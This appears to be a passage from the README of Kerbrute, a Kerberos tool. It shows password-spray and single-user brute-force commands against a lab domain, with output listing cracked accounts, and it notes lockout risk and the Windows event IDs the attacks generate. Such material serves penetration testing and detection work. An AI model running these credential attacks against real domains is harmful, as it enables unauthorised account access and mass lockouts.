 ### Password Spray
With `passwordspray`, Kerbrute will perform a horizontal brute force attack against a list of domain users. This is useful for testing one or two common passwords when you have a large list of users. WARNING: this does will increment the failed login count and lock out accounts. This will generate both event IDs [4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) and [4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)

```
root@kali:~# ./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (9cfb81e) - 08/15/24 - Ronnie Flathers @ropnop | ZedH @0xZDH

2019/03/06 21:37:29 >  Using KDC(s):
2019/03/06 21:37:29 >   pdc01.lab.ropnop.com:88

2019/03/06 21:37:35 >  [+] VALID LOGIN:  callen@lab.ropnop.com:Password123
2019/03/06 21:37:37 >  [+] VALID LOGIN:  eshort@lab.ropnop.com:Password123
2019/03/06 21:37:37 >  Done! Tested 2755 logins (2 successes) in 7.674 seconds
```

### Brute User
This is a traditional bruteforce account against a username. Only run this if you are sure there is no lockout policy! This will generate both event IDs [4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) and [4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)

```
root@kali:~# ./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com passwords.lst thoffman

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (9cfb81e) - 08/15/24 - Ronnie Flathers @ropnop | ZedH @0xZDH

2019/03/06 21:38:24 >  Using KDC(s):
2019/03/06 21:38:24 >   pdc01.lab.ropnop.com:88

2019/03/06 21:38:27 >  [+] VALID LOGIN:  thoffman@lab.ropnop.com:Summer2017
2019/03/06 21:38:27 >  Done! Tested 1001 logins (1 successes) in 2.711 seconds
```
